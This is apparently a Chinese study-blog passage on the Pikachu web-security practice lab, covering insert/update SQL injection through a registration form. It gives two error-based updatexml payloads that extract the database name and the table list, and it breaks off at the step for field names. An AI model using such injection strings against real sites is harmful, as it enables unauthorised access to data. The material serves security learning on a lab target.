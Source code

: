 ```yaml
---
title: Pikachu-SQL注入（三）
tags:
  - pikachu
categories:
  - 学习
  - web安全
  - Pikachu
abbrlink: 49a53027
date: 2022-05-07 14:46:51
---
```




### insert&update注入

insert/update是插入和更新的意思，这两个场景的注入，post数据包里的每一个参数都可以注入

#### insert注入

首先在注册的时候抓包分析。

![41](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144400.png)



注册页面，在**用户**框内输入单引号，密码为必填项，随意输入几个数字，提交。页面返回报错信息如图

![42](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144409.png)



 由报错信息可以知道，输入的数据直接拼接入该sql查询语句中，存在着SQL注入漏洞。



1.查找数据库

```
1' or updatexml(1,concat(0x7e,database()),1)) #	
```



![43](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144417.png)

2.查找数据库中的表

```
1' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database() limit 0,1)),1))#
```

![44](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144420.png)



3.查找指定表中的字段名
